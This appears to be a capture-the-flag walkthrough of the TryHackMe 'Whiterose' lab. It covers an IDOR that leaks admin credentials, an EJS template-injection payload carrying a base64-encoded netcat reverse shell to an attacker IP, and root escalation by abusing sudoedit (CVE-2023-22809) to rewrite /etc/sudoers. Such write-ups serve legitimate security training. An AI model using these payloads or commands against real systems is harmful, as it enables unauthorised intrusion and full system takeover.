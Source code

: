 TryHackMe | Whiterose

## Recon: nmap scan

![Alt text for the image](nmap.png)

## Change config file /etc/hosts

![Alt text for the image](etc.png)

## The webpage

![Alt text for the image](webpage.png)

## Brute forcing directories and other things with ffuf and feroxbuster

![Alt text for the image](fuzz.png)

![Alt text for the image](fuzz1.png)

## Change config file /etc/hosts

![Alt text for the image](etc1.png)


## Web access with olivas credentials we where given by the room (Olivia Cortez:olivi8)
But we can take a look at the news history. This is set to ?c=5 during the visit. The parameter c can be checked for IDOR. (http://admin.cyprusbank.thm/messages/?c=5)

With the parameter value 0 we find the credentials of an admin user Gayle Bev. (http://admin.cyprusbank.thm/messages/?c=0)

![Alt text for the image](login_page.png)

![Alt text for the image](message.png)

![Alt text for the image](message1.png)

## Web Access Gayle Bev

We use the found credentials to log in as Gayle Bev and are successful. (Gayle Bev:p~]P@5!6;rs558:q)

![Alt text for the image](gayle_login.png)

We are now able to read the telephone numbers of Tyrell Wellick.

![Alt text for the image](flag1.png)

## Shell as web
We can set the customer's passwords here. What is noticeable is that the passwords are reflected. This immediately draws attention to XSS or SSTI.

We can know this website is vulnarable to SSTI because of this error

![Alt text for the image](server_error.png)

We can find SSTI payloads here: 
  
     https://github.com/mde/ejs/issues/720
     https://eslam.io/posts/ejs-server-side-template-injection-rce/

Next, we set up a listener and us the following payload to spawn a reverse shell.

## Generate a reverse shell

![Alt text for the image](reverse_shell_gen.png)

Encode it in base64 and add it to the payload belwo

![Alt text for the image](encoding.png)
    
    name=a&passord=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash"');//

![Alt text for the image](payload.png)

We should reveice back a connection like this

![Alt text for the image](netcat_listener.png)

We receive a connection back and are the user web. In the home directory of web we find the first flag. After we have received our reverse shell, we then upgrade it. 

![Alt text for the image](flag2.png)

## Upgrading our shell: Follow the steps in the link bellow:

    https://0xffsec.com/handbook/shells/full-tty/

![Alt text for the image](upgrade.png)

![Alt text for the image](upgrade1.png)

We can go to web home directory and find the second flag

## Privilege escelation

Whe can see what commands we can use root with

 ![Alt text for the image](shell_as_root.png)

You can use sudoedit as root without a password to modify the file /etc/nginx/sites-available/admin.cyprusbank.thm.
After some reasearch we find (https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)
CVE-2023-22809 for sudoedit

After upgrading our shell 

we use this exploit to see the hash of root

To escalate our privileges to root, we attempt to edit the /etc/sudoers file.
    
    export EDITOR="vi -- /etc/sudoers"
    sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

The first part shows you how to get the hash.

 ![Alt text for the image](hash..png)

 ![Alt text for the image](root_hash.png)


The second part, here we target the line with the command allowing us to execute that specifies the sudoedit command:
    
    web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

and replace it with the following:

    web ALL=(root) NOPASSWD: ALL  

![Alt text for the image](edit.png)

## We are root!

Now we are able to execute any command as root without providing a password and use that to switch to the root user. 

![Alt text for the image](root.png)

To get our last flag

![Alt text for the image](falg3.png)
